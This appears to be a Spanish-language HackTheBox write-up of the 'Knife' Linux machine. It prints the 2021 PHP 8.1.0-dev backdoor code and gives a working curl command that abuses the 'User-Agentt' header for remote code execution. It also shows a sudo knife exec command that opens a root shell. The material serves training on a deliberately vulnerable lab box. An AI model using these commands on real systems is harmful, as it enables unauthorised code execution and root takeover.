------

----


## 🧷 HTB - Knife (Linux | Easy)

**Dirección IP**: `10.10.10.242`  
**Sistema Operativo**: Linux  
**Dificultad**: 🟢 Easy  
**Tu VPN**: EU VIP 5  
**Tiempo estimado**: `≈1h - 2h`


### 🛰️ Tarea 1 - ¿Cuántos puertos TCP están abiertos?

**Comando usado:**

```bash
sudo nmap -sS -sV -p- 10.10.10.242
```

Resultado:



✅ **Respuesta**: `2` puertos TCP abiertos (22 y 80).

🧠 _Nota_: El escaneo completo (`-p-`) nos permite ver todos los puertos posibles. Aquí solo están abiertos dos.


### 🌐 Tarea 2 - ¿Qué versión de PHP corre en el servidor web?

**Comando usado:**

```bash
whatweb http://10.10.10.242/
```

**Resultado:**



✅ **Respuesta**: `8.1.0-dev`

🧠 _Nota_: La versión `-dev` indica que es una versión de desarrollo y no estable. ¡Esto es una bandera roja! Puede contener vulnerabilidades no parcheadas.


### 🚨 Tarea 3 - ¿Qué cabecera HTTP permite ejecución remota en esta versión de PHP?

### 🧩 Contexto histórico de la vulnerabilidad

En **marzo de 2021**, el repositorio oficial de PHP fue **comprometido por un atacante**. Este atacante consiguió acceso al servidor Git donde se aloja el código fuente de PHP, y **inyectó un commit malicioso** en el archivo `main/rfc822.c`.

🔗 Commit real y oficial:  
📎 [2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)

### 📄 ¿Qué introducía ese commit?

Ese commit añadía este fragmento de código en C dentro del core de PHP:

```bash
if (strstr(user_agent, "zerodium")) {
    zend_eval_string("system($_SERVER['HTTP_USER_AGENTT']);", NULL, "REMOVETHIS");
}
```

🔍 Explicación:

- `strstr(user_agent, "zerodium")`: comprueba si el `User-Agent` contiene la palabra `"zerodium"`.
    
- Si es así, ejecuta el contenido de la cabecera `User-Agentt` como un comando de sistema usando `system()`.

### 🔐 ¿Qué es `zerodiumsystem(...)` entonces?

👉 **Nada.** Es solo un ejemplo que se hizo popular en writeups, pero no es necesario. Lo importante es:

- **Que el `User-Agent` contenga** `zerodium`.
    
- **Que el `User-Agentt` (con doble "t") contenga código PHP válido**, como `system('id');`.


### ✅ ¿Cómo se explota?

#### Con `curl`, manualmente:

```bash
curl -s -H "User-Agentt: zerodiumsystem('id');" http://10.10.10.242/ | grep uid
```

🔍 Resultado esperado:



#### Explicación clara:

- `User-Agent`: activa la condición del if (`"zerodium"`).
    
- `User-Agentt`: contiene el código que será evaluado con `system()` gracias a `zend_eval_string`.


## 👤 Tarea 4 – ¿Qué usuario está ejecutando el servidor web?

---

### 🧠 Objetivo

Identificar con qué permisos se ejecuta el servidor web (`Apache`) en esta máquina, para evaluar si tenemos acceso a ficheros sensibles o si ya podemos acceder a la flag de usuario directamente.

📥 Resultado:

```bash
james
```

### 📌 Interpretación

Normalmente un servidor web en Linux se ejecuta como `www-data` (usuario con pocos privilegios), pero en este caso:

- 🟢 El servidor Apache **está corriendo como el usuario real `james`**.
    
- Esto nos **permite acceder directamente a su directorio home** y obtener el flag de usuario sin necesidad de escalar privilegios.


## 🏁 Tarea 5 – Obtener la flag del usuario `james`

### 🎯 Objetivo

Leer la flag `user.txt` situada en el directorio home del usuario `james`.

Gracias a la vulnerabilidad RCE en PHP 8.1.0-dev (ver Tarea 3), sabemos que el servidor web se ejecuta directamente como el usuario `james` (ver Tarea 4). Esto nos da acceso completo a su `/home`.

### 🧰 Herramienta utilizada

Usamos el script:

```bash
backdoor_php_8.1.0-dev.py
```



📎 Repositorio original:  
[https://flast101.github.io/php-8.1.0-dev-backdoor-rce/](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

📎 Exploit en GitHub:  
[https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)

🧪 Pasos ejecutados

```bash
python3 backdoor_php_8.1.0-dev.py
```

🔽 Resultado:



### 📂 Navegación en la pseudo-shell

Comprobamos el usuario actual:



Listamos contenido del home y leemos la flag.



### 📌 Resumen de aprendizaje

- El backdoor de PHP ejecuta código contenido en la cabecera `User-Agentt` si `User-Agent` contiene `zerodium`.
    
- El script Python simplifica esta ejecución y permite una pseudo-shell.
    
- Al correr como `james`, no fue necesaria ninguna escalada de privilegios para obtener la flag de usuario.


## 🧰 Tarea 6 – ¿Qué binario puede ejecutar `james` como root?

### 🎯 Objetivo

Determinar qué archivo (binario) puede ejecutar el usuario `james` como `root`, utilizando `sudo`.

### 💡 Pista recibida

> `sudo` tiene una opción para listar la configuración del usuario actual.

Esto nos sugiere el uso de:

```bash
sudo -l
```

🧪 Comando ejecutado en la pseudo-shell:



📥 Resultado:

```bash
User james may run the following commands on knife:
    (ALL) NOPASSWD: /usr/bin/knife
```

### ✅ Interpretación

- El binario `/usr/bin/knife` puede ejecutarse como **root** sin necesidad de contraseña.
    
- Se trata del programa **`knife`** de la suite Chef, una herramienta de automatización de configuración. Tiene funcionalidades peligrosas si está mal configurado.


## 🔐 Tarea Final – Escalada a root y obtención de `root.txt`

---

### 🎯 Objetivo

Aprovechar que el usuario `james` puede ejecutar el binario `/usr/bin/knife` como `root`, sin contraseña (`NOPASSWD`), para escalar privilegios y acceder a la flag `/root/root.txt`.

### 🔍 ¿Qué es `knife`?

`knife` es una herramienta del framework **Chef**, usada para administrar servidores desde la línea de comandos. Internamente, ejecuta scripts Ruby y permite cargar código desde archivos o incluso desde argumentos peligrosos.

### 🔥 Escalada a root usando `knife`

`knife` tiene una opción para cargar plugins escritos en Ruby. Esto se puede abusar para ejecutar comandos arbitrarios.

#### 🧪 Comando para obtener una shell como root:

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```



✅ Esto ejecuta `bash` directamente como root.

### 🧾 Verificación

Una vez dentro de la shell root:



### 📌 Nota técnica

La opción `-E` de `knife exec` ejecuta código Ruby directamente desde la línea de comandos. Como `james` puede usar `knife` como root, cualquier código que metas allí se ejecutará con permisos de root.

---

### 🧠 Aprendizaje clave

- Siempre revisar `sudo -l` al tener acceso a un usuario.
    
- Los binarios como `knife`, `vim`, `perl`, `python`, etc., pueden ser vectores de escalada si tienen `NOPASSWD`.
    
- Buscar en GTFOBins cuando se encuentra un binario con sudo permitido.